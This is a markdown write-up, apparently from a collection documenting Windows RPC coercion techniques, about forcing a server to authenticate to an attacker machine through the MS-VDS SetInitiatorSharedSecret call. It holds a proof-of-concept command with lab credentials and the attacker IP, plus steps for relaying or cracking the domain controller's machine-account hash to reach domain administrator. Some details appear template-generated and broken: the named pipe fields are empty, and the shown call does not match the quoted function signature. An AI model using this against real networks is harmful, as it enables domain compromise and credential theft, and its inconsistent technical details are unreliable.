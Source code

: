 # MS-VDS - Remote call to IVdsServiceIscsi::SetInitiatorSharedSecret (opnum 8)

## Summary

 - **Protocol**: [[MS-VDS]: Virtual Disk Service (VDS) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/90977af2-515e-4fbd-809c-fdb280ab48db)

 - **Protocol UUID**: 118610b7-8d94-4030-b5b8-500889788e4e

 - **Protocol version**: 0.0

 - **SMB Named pipe**: ``

 - **Function name**: [`IVdsServiceIscsi::SetInitiatorSharedSecret`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/d9179d8c-ece6-4e81-98ed-2fcca7ff6c25)

 - **Function operation number**: `8`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-VDS`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/90977af2-515e-4fbd-809c-fdb280ab48db) protocol (with uuid `118610b7-8d94-4030-b5b8-500889788e4e` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-VDS`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/90977af2-515e-4fbd-809c-fdb280ab48db) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-VDS]: Virtual Disk Service (VDS) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/90977af2-515e-4fbd-809c-fdb280ab48db) and allows to call RPC functions of this protocol. We will then call the remote [`IVdsServiceIscsi::SetInitiatorSharedSecret`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/d9179d8c-ece6-4e81-98ed-2fcca7ff6c25) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
IVdsServiceIscsi::SetInitiatorSharedSecret('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT SetInitiatorSharedSecret(
   [in, unique] VDS_ISCSI_SHARED_SECRET* pInitiatorSharedSecret,
   [in] VDS_OBJECT_ID targetId
 );
```

## References

 - Documentation of protocol [MS-VDS]: Virtual Disk Service (VDS) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/90977af2-515e-4fbd-809c-fdb280ab48db

 - Documentation of function `IVdsServiceIscsi::SetInitiatorSharedSecret`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/d9179d8c-ece6-4e81-98ed-2fcca7ff6c25